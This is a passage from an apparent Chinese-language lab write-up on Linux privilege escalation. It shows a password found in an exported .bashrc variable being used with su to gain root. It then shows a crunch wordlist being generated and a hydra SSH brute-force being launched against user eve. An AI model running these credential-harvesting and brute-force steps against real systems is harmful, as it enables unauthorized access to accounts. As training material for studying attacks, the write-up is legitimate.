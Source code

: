 `SCRIPT_CREDENTIALS` 變數會保存一個類似密碼的值。為了確認我們正在處理永久變量，因此需要檢查`.bashrc`
```
joe@debian-privesc:~$ cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
export SCRIPT_CREDENTIALS="lab"
HISTCONTROL=ignoreboth
...
```
> 從 `.bashrc` 中得知，當使用者的 shell 啟動時，保存密碼的變數會被匯出
#### 2. 嘗試使用 .bashrc 資訊取得 root
嘗試用密碼使用 root 權限
```
joe@debian-privesc:~$ su - root
Password:

root@debian-privesc:~# whoami
root
```
> 成功取得 root

接著換一種方式，取得在上述有發現的 user: eve
#### crunch (custom wordlist)
使用 crunch cmd工具產生自訂 wordlist。將最小長度和最大長度設為 6 個字元，使用 `-t` 參數指定模式，然後將前三個字符硬編碼為Lab ，後面跟著三個數字。
```
┌──(chw㉿CHW)-[~]
└─$ crunch 6 6 -t Lab%%% > wordlist
Crunch will now generate the following amount of data: 7000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 1000 
                                       
┌──(chw㉿CHW)-[~]
└─$ cat wordlist                   
Lab000
Lab001
Lab002
Lab003
Lab004
Lab005
Lab006
...
Lab999
```
#### 3. hydra 爆破 user password
使用 hydra 爆破 ssh eve
```
┌──(chw㉿CHW)-[~]
└─$ hydra -l eve -P wordlist  192.168.163.214 -t 4 ssh -V
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```
